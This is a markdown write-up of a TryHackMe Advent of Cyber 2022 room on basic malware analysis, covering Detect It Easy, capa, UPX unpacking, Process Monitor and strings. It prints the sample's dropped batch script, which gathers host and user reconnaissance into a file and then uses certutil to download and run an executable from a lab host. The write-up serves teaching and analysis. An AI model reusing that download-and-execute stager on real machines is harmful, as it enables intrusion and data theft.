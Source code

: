 ```yaml
---
layout: default
title: Malware Analysis
has_children: false
nav_order: 2
parent: Advent Of Cyber 2022
grand_parent: Try Hack Me
permalink: /try-hack-me/advent-of-cyber-2022/malware-analysis
---
```


# Forensic McBlue to the REVscue! - Malware Analysis <!-- markdownlint-disable-line MD025 MD022-->
{: .no_toc}

## Table of content <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## Description

A room covering basics of mmalware analysis utilizing Flare VM (Windows)

## Basic Static Analysis

Static Analysis is a way of analysing a malware sample without executing the code.

### Detect It Easy

Detect it easy provides information about a file like architecture, headers, packer, contained strings, etc.

- navigate to the malwave -> right-click -> detect it easy

![detect it easy](../../assets/TryHackMe/AdventOfCyber2022/2.MalwareAnalysis/detect_it_easy.png)

![Alt text](../../assets/TryHackMe/AdventOfCyber2022/2.MalwareAnalysis/die1.png)

> Packed with UPX

### CAPA (1)

CAPA detects capabilities in executable files. May it be for the installation of a service, invocation of network connections, registry modifications and such.

- `capa mysterygift`:

```console
C:\Users\Administrator>cd "Desktop\Malware Sample"
C:\Users\Administrator\Desktop\Malware Sample>capa mysterygift
loading : 100%|████████████████████████████████████████████████████████████| 485/485 [00:00<00:00, 1633.69     rules/s]
matching: 100%|██████████████████████████████████████████████████████████████████| 3/3 [00:02<00:00,  1.11 functions/s]
WARNING:capa:--------------------------------------------------------------------------------
WARNING:capa: This sample appears to be packed.
WARNING:capa:
WARNING:capa: Packed samples have often been obfuscated to hide their logic.
WARNING:capa: capa cannot handle obfuscation well. This means the results may be misleading or incomplete.
WARNING:capa: If possible, you should try to unpack this input file before analyzing it with capa.
WARNING:capa:
WARNING:capa: Use -v or -vv if you really want to see the capabilities identified by capa.
WARNING:capa:--------------------------------------------------------------------------------
```

- `del mysterygift.viv` delete capa file, if not capa will just open the last scan

### UPX

Ultimate Packer for eXecutables.

- Unpack the file `upx -d mysterygift`:

![upx](../../assets/TryHackMe/AdventOfCyber2022/2.MalwareAnalysis/upx.png)

### CAPA (2)

- `capa mysterygift`:

![capa](../../assets/TryHackMe/AdventOfCyber2022/2.MalwareAnalysis/capa.png)

## Dynamic Analysis

Dynamic Analysis mainly focuses on understanding the malware by executing it in a safe environment, such as a Sandbox.

### Process Monitor

- Add 'exe' extension to file name
- Add PrcMon filter : "Process name contains mysterygift"
  
![proc mon](../../assets/TryHackMe/AdventOfCyber2022/2.MalwareAnalysis/procMon.png)

- run "mysterygift.exe"
- toggle on "Show Registry Activity"
- exclude:
  - RegOpenKey
  - RegQueryValue
  - RegQueryKey
  - RegCloseKey

![proc mon 2](../../assets/TryHackMe/AdventOfCyber2022/2.MalwareAnalysis/procMon2.png)

![proc mon 3](../../assets/TryHackMe/AdventOfCyber2022/2.MalwareAnalysis/procMon3.png)

Contetnt of wishes.bat:

```bat
::===============================================================
::     /)/)/) /).-')
::    ////((.'_.--'   .(\(\(\                   n/(/.')_         .
::   ((((_/ .'      .-`)))))))                  `-._ ('.'        \`(\
::  (_._ ` (         `.   (/ |                      \ (           `-.\
::      `-. \          `-.  /                        `.`.           \ \
::         `.`.          | /                /)         \ \           | L
::           `.`._.      ||_               (()          `.\          ) F
::   (`._      `. <    .'.-'                \`-._____    ||        .' /
::    `(\`._.._(\(\)_.'.'-------------.___   `-.(`._ `-./ /     _.' .'
::      (.-.| \_`.__.-<     `.    . .-'   `-.   _> `-._((`.__.-'_.-'
::          (.--'   ' |    \ \     /| \.-./ |\ `-.   _.'>.___,-'`.
::             (  o  <      |     |  `o   o'  |  /(`'.-'   --.    \
::           .'     /      .'   _ |   |   |   |  ( .'/  o .-'   \  |
::           (__.-.`-._  -'    '   \  \   /  /    ' /    _/      | J
::                 \_  `.      _.__.L |   | J      (  .'\`.    _/-./
::                   `-<  .-L|'`-|  ||\\V/ ||       `'   L \  /   /
::                      |J  ||    \ ||||  |||            |  |_|  )
::                      ||  ||     )||||  |||            || / ||J
::                      (|  (|    / |||)  (||            |||  |||
::                      ||  ||   / /||||  |||            |(|  |||
::                      ||  ||  / / ||||  |||            |||  |||
::_______.------.______/ |_/ |_/_|_/// |__| \\__________// |--( \\---------
::# Art by Joris Bellenger
::
::
::███████╗░█████╗░░██████╗████████╗███████╗██████╗░  ███████╗░██████╗░░██████╗░  ░█████╗░███╗░░██╗
::██╔════╝██╔══██╗██╔════╝╚══██╔══╝██╔════╝██╔══██╗  ██╔════╝██╔════╝░██╔════╝░  ██╔══██╗████╗░██║
::█████╗░░███████║╚█████╗░░░░██║░░░█████╗░░██████╔╝  █████╗░░██║░░██╗░██║░░██╗░  ██║░░██║██╔██╗██║
::██╔══╝░░██╔══██║░╚═══██╗░░░██║░░░██╔══╝░░██╔══██╗  ██╔══╝░░██║░░╚██╗██║░░╚██╗  ██║░░██║██║╚████║
::███████╗██║░░██║██████╔╝░░░██║░░░███████╗██║░░██║  ███████╗╚██████╔╝╚██████╔╝  ╚█████╔╝██║░╚███║
::╚══════╝╚═╝░░╚═╝╚═════╝░░░░╚═╝░░░╚══════╝╚═╝░░╚═╝  ╚══════╝░╚═════╝░░╚═════╝░  ░╚════╝░╚═╝░░╚══╝
::
::██╗░░██╗░░░░░░███╗░░░███╗░█████╗░░██████╗██╗  
::╚██╗██╔╝░░░░░░████╗░████║██╔══██╗██╔════╝██║  
::░╚███╔╝░█████╗██╔████╔██║███████║╚█████╗░██║  
::░██╔██╗░╚════╝██║╚██╔╝██║██╔══██║░╚═══██╗╚═╝  
::██╔╝╚██╗░░░░░░██║░╚═╝░██║██║░░██║██████╔╝██╗  
::╚═╝░░╚═╝░░░░░░╚═╝░░░░░╚═╝╚═╝░░╚═╝╚═════╝░╚═╝  
::
::████████╗██╗░░██╗░█████╗░███╗░░██╗██╗░░██╗░██████╗  ███████╗░█████╗░██████╗░
::╚══██╔══╝██║░░██║██╔══██╗████╗░██║██║░██╔╝██╔════╝  ██╔════╝██╔══██╗██╔══██╗
::░░░██║░░░███████║███████║██╔██╗██║█████═╝░╚█████╗░  █████╗░░██║░░██║██████╔╝
::░░░██║░░░██╔══██║██╔══██║██║╚████║██╔═██╗░░╚═══██╗  ██╔══╝░░██║░░██║██╔══██╗
::░░░██║░░░██║░░██║██║░░██║██║░╚███║██║░╚██╗██████╔╝  ██║░░░░░╚█████╔╝██║░░██║
::░░░╚═╝░░░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚══╝╚═╝░░╚═╝╚═════╝░  ╚═╝░░░░░░╚════╝░╚═╝░░╚═╝
::
::░██████╗░█████╗░██╗░░░██╗██╗███╗░░██╗░██████╗░  ░██████╗░█████╗░███╗░░██╗████████╗░█████╗░██╗░██████╗
::██╔════╝██╔══██╗██║░░░██║██║████╗░██║██╔════╝░  ██╔════╝██╔══██╗████╗░██║╚══██╔══╝██╔══██╗╚█║██╔════╝
::╚█████╗░███████║╚██╗░██╔╝██║██╔██╗██║██║░░██╗░  ╚█████╗░███████║██╔██╗██║░░░██║░░░███████║░╚╝╚█████╗░
::░╚═══██╗██╔══██║░╚████╔╝░██║██║╚████║██║░░╚██╗  ░╚═══██╗██╔══██║██║╚████║░░░██║░░░██╔══██║░░░░╚═══██╗
::██████╔╝██║░░██║░░╚██╔╝░░██║██║░╚███║╚██████╔╝  ██████╔╝██║░░██║██║░╚███║░░░██║░░░██║░░██║░░░██████╔╝
::╚═════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝╚═╝░░╚══╝░╚═════╝░  ╚═════╝░╚═╝░░╚═╝╚═╝░░╚══╝░░░╚═╝░░░╚═╝░░╚═╝░░░╚═════╝░
::
::░██████╗░█████╗░░█████╗░
::██╔════╝██╔══██╗██╔══██╗
::╚█████╗░██║░░██║██║░░╚═╝
::░╚═══██╗██║░░██║██║░░██╗
::██████╔╝╚█████╔╝╚█████╔╝
::╚═════╝░░╚════╝░░╚════╝░
::===============================================================
:: start
ECHO OFF
hostname >> %APPDATA%\dump
whoami /all>> %APPDATA%\dump
ipconfig >> %APPDATA%\dump
netstat -ano >> %APPDATA%\dump
dir %USERPROFILE%\Documents >> %APPDATA%\dump
dir %USERPROFILE%\Downloads >> %APPDATA%\dump
dir %USERPROFILE%\Downloads >> %APPDATA%\dump
certutil -urlcache -split -f http://bandityeti.thm/phonehome %APPDATA%\surprise.exe
%APPDATA%\surprise.exe
:: end
```

### Strings

Strings can be used to search for ANSI and Unicode strings in binary images.

- `strings mysterygift.exe | grep http://`:

```console
@http://virustotal.com
@http://bestfestivalcompany.thm/favicon.ico 
```

---
